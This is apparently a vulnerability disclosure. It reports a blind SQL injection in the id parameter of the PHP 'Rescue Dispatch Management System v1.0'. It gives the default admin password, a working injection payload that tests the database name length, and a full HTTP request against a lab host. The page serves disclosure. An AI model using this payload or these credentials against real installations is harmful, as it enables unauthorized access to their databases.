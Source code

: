 # Rescue Dispatch Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File:  /rdms/admin/respondent_types/manage_respondent_type.php?id=

Vulnerability location: /rdms/admin/respondent_types/manage_respondent_type.php?id=,id

[+] Payload: /rdms/admin/respondent_types/manage_respondent_type.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

Current database name: rdms_db,length is 7

```sql
GET /rdms/admin/respondent_types/manage_respondent_type.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close
```

When length (database ()) = 6, Content-Length: 1965
![image](https://user-images.githubusercontent.com/54017627/170465906-c6448522-f1a4-4c44-81df-d0fa054e3f1f.png)

![image](https://user-images.githubusercontent.com/54017627/170465597-a3fb907f-21fb-4221-a246-902017286c66.png)

When length (database ()) = 7, Content-Length: 1983
![image](https://user-images.githubusercontent.com/54017627/170465879-f9a56b71-e2cc-47e0-a3b3-9bbfac661a00.png)

![image](https://user-images.githubusercontent.com/54017627/170465555-c0bf6c5b-33a1-45b2-807c-46934525784c.png)
